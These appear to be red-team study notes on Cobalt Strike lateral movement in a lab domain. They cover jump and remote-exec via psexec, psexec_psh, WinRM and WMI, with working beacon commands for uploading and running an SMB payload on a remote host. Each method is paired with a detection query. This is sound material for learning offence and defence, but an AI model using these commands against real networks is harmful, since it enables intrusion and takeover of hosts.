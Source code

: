 # Lateral Movement

Moving between hosts in a domain helps access sensitive information and obtain new credentials. Using Aggressor, custom methods can be used for **jump** and **remote-exec**. Each of these strategies are compatible with User Impersonation techniques (e.g. use pth to impersonate a user and then jump to move laterally). Some of Seatbelt's commands can also be run remotely (e.g. ```execute-assembly Seatbelt.exe OSInfo -ComputerName=web```).

### jump

```jump [method] [target] [listener]``` spawns a beacon payload on the remote target (and connect to it if using a P2P listener).

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec/psexec64         x86/x64 Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm/winrm64           x86/x64 Run a PowerShell script via WinRM

### remote-exec

```remote-exec [method] [target] [command]``` executes the command on the target (not exclusive to lateral movement). Needs more manual work to manage the payload, but does offer a wider degree of control. 

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI

## Windows Remote Management

The **winrm / winrm64** methods return a high priv beacon running as the user interacting with the remote machine. SMB Beacon traffic blends in very well with expected traffic on Windows networks.

```jump winrm64 web.dev.cyberbotic.io smb``` - creates a Beacon that runs inside wsmprovhost.exe (the Host process for WinRM plug-ins), used whenever WinRM is used, legitimate or not. 

Admins can search for process start events, but get a lot of false positives. Best way to catch is to search PS script block logs for known payload artefacts, e.g. ```event.category: process and powershell.file.script_block_text: "$var_runme.Invoke([IntPtr]::Zero)"```

## PsExec

**psexec / psexec64** upload a service binary to the target, then create and starting a service to execute that binary. Beacons run as SYSTEM. 

```jump psexec64 web.dev.cyberbotic.io smb``` 

Catch by looking for 4697 service created events (which are rare, unless a service comes with other software). CS uses a random 7-char alphanumeric string for service name and binary filename. When setting the binPath for the service, it uses a UNC path to the ADMIN$ share: ```event.code: 4697 and winlog.event_data.ServiceFileName: \\\\*\\ADMIN$\\*.exe```

**psexec_psh** doesn't copy a binary to the target, but runs a PS 32-bit command. The pattern it uses by default is ```%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand ....```

```jump psexec_psh web smb```

## Windows Management Instrumentation (WMI)

WMI is part of remote-exec, which uses WMI's "process call create" to run a command on the target. Easiest way is to upload a payload to the target and run it via WMI. The process runs in an elevated context of the calling user.

    beacon> cd \\web.dev.cyberbotic.io\ADMIN$
    beacon> upload C:\Payloads\smb_x64.exe
    beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
    beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10  // connect to process

To catch, look for process create events where WmiPrvSE is the parent: ```event.category: process and event.type: start and process.parent.name: WmiPrvSE.exe```



